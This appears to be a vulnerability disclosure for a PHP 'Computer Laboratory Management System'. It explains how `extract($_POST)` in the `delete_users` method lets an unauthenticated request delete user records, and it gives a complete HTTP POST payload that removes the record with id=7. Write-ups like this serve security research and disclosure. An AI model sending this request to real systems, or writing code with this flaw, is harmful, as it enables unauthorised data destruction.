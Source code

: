 # Computer Laboratory Management System using PHP and MySQL - Variable Override

In *classes/Users.php*, there is an `extract($_POST)` present within the `delete_users` method.

![](image/image_nzmOwku8ve.png)

The `delete_users` method is a method of the `Users` class.

![](image/image_dQ7rX2TGnY.png)

In the User.php file, `$users = new users();` instantiates the Users class, and through a GET request, control over calling the `delete_users` method can be gained.

![](image/image_Q0vsn9Y6nL.png)

Viewing the users database

![](image/image_HNDM3vQP2Q.png)

Construct a payload to delete the data with id=7.

```http
POST /php-lms/classes/Users.php?f=delete HTTP/1.1
Host: 192.168.3.182
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=me1t3n4nemvaf39r7udbqlal8v; XDEBUG_SESSION=12980
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

id=7
```

![](image/image_hg4_iXwt0D.png)

Refresh the database, the test data is deleted.

![](image/image_mGXl4egwms.png)
